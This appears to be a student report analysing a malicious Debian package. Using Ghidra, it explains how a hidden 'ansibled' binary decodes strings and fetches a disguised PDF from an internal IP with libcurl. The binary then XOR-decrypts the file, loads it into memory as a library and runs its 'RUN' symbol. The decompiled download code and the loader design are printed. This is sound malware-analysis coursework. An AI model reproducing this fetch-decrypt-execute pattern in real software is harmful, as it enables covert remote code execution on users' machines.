








# Project N2
## Definition
It was propsoed to us to try to analyse using reverse engineering a suspicius code that was found on campus using Reverse engineering techniques that were thought trought the semester. \
We need to find a response to the following questions:\
- **Do we really have a malware?**\
- **How the malware works and why a deb is used?**\
- **Are other hosts involved?**\
- **What is the potential impact to our organization?**\

## Strategy

First of all we started with a simple search of what is a deb and what are their components. This is the relevant information that we found:
- Deb is the file format that debian uses in its destributioiins
- This archive has 3 files: debian-binary (Containing package format number), control archive (Containig package name, version, dependencies and maintainer) and data archive(Containg the installable files)

### Integrity check 
As we checked there was too many files a shell script was made (with the help of stack overflow) to check the md5 of interely folders so we can compare them witha  genuine version

#### Control
Control is a file that contains the dependencies needed, seeing that the md5 didn't match the original one  we checked this file which contained two added depedencies:
- libcurl4-openssl-dev 
- curl


This may suggest that the malware needs to comunicate with an external server to **extravigate information** or **download extra code** from one.

### Data
The false deb has an extra lib folder that is suspicious, besides that, the usr folder has a folder where the hashes don't match with the original one.

That folder has an extra file named **ansibled**


### Ansibled
#### Strings
Running the strings command can  give us some useful information, like this:



We can see this file is triying to connect to some socket and using the extra libraries mentioned before
####  File analysis with ghidra
##### Encript
Is a function started at `0x001016da` that XOR's a the second argument with the third and stores the result in the first.

#### Threads
The main function executes a thread that is always listening and waits for a connection to be made to a port a reads it and saves it on a variable.
#### Singal handler
On memory address `00101b37`is a function that will be the handler of a signal.

This function points to two others
##### FUN_00101758
At `00101758` this function decodes two strings
-  From `"m6/2m%7+&\'l2&$` to `/tmp/guide.pdf`
-  From `*662xmms{plstzlstrlsvqm%7+&\'l2&$` to `http://192.168.160.143/guid?e.pdf`

Next the code 
```
  local_10 = curl_easy_init();
  if (local_10 != 0) {
    local_18 = fopen(local_a8,"wb");
    local_1c = 0x2712;
    curl_easy_setopt(local_10,0x2712,local_68);
    local_20 = 0x4e2b;
    curl_easy_setopt(local_10,0x4e2b,0);
    local_24 = 0x2711;
    curl_easy_setopt(local_10,0x2711,local_18);
    local_28 = curl_easy_perform(local_10);
    curl_easy_cleanup(local_10);
    if (local_28 != 0) {
      unlink(local_a8);
    }
    fclose(local_18);
  }
```
after serching for a bit we've found this example that very looks like the code above in "https://curl.se/libcurl/c/curl_easy_init.html"

With the all evidence above we can see that this code is doing curl of a PDF file. 
We curled the pdf to see what it was and got a "500 comandos de Linux explicados".  We thought it could be a Poliglot so we checked the hash with a similar one we found online.
- Online:

- What we Curled:

It didn't match

- Online size:   1527251
-  We curled size:  1592968

##### FUN_00101a07 ->ReadFile
This is the second function of the handler and will help us tell what is done with the file.
##### FUN_001019b4-> File decription
Give an pointer, a size and a byte, it XOR's byte a byte the byte and the next byte in the pointer

##### FUN_00101870->RunSecretCode
This code works right after the File decription function, after the pdf get decripted this functions copies the pdf to ram with the name found on "0x64656c6269736e61". Then it loads the pdf as a library and looks for the symbol contained on "&DAT_001020d3" that is "RUN". After knowing the adress of that symbol it sends the code to run from there.


